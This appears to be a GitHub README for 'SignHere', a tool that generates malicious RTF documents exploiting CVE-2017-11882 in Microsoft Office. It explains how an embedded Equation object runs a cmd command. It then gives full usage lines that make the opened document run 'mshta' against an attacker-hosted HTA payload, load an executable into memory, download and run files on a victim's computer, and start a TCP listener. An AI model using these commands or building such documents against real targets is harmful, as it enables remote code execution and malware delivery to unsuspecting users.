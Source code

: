 ## SignHere
# Introduction

<b>CVE-2017-11882</b> - The unique vulnerability identifier of Microsoft Office 2007 Service Pack 3, Microsoft Office 2010 Service Pack 2, Microsoft Office 2013 Service Pack 1, and Microsoft Office 2016 allows an attacker to run code in the context of the current user without properly handling objects in memory, the so-called "Microsoft Office Memory corruption vulnerability".
The implementation includes creating a program for building malicious rtf documents and payloads in VBScript

<b>The principle of operation</b>
--
It is rtf documents that are vulnerable for the reason that they can be "programmed" by knowing special commands-RTF Headers. Thus, a binary (executable) object is created in the body of the document, in fact, it is a Microsoft Equation formula with the code that contains the cmd command. Then you can generate the payload in VBScript and use the command " mshta link to the payload file” to execute the hta file.

<br>

# Attention!
Author and contributors <b>are not responsible</b> for any damage caused to you or by you.

## Installation
The program requires [Python 3](https://www.python.org) for executing.
--
<b>Linux</b>
--
You can use <b>Termux</b>, but execution of program requires <b>root</b>

```sh
git clone https://github.com/Retr0-code/SignHere/
cd SignHere/
chmod +x SignHere.py
./SignHere.py --help
```
<br>

<b>Windows</b>
--
First, you need to download the [archive](https://github.com/Retr0-code/SignHere/archive/main.zip). Then unpack it and open a PowerShell window in this folder and write:
```sh
.\SignHere.py --help
```

## Usage

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --powershell "start iexplore.exe https://github.com/Retr0-code/SignHere" --ip 192.168.1.74 --output generated.rtf
```

<b>--cmd</b>
Argument with Windows command that will be executed after opening document.

<b>--powershell</b>
Argument with powershell command that will be in VBScript payload.

<b>--ip</b>
Argument with ip address that will be used for web-server. (default: 127.0.0.1)

<b>--output</b>
Name and path of document.

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --temp exploit.exe --ip 192.168.1.74 --output generated.rtf
```

<b>--temp</b>
Argument that will use binary file as payload (binary file will start in RAM memory).

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --payload exploit.exe --ip 192.168.1.74 --listener-host 192.168.1.74 --output generated.rtf
```

<b>--payload</b>
Argument that will download file on computer of victim and execute it.

<b>--listener-host</b>
Argument for starting TCP listener on current ip (default: 127.0.0.1)
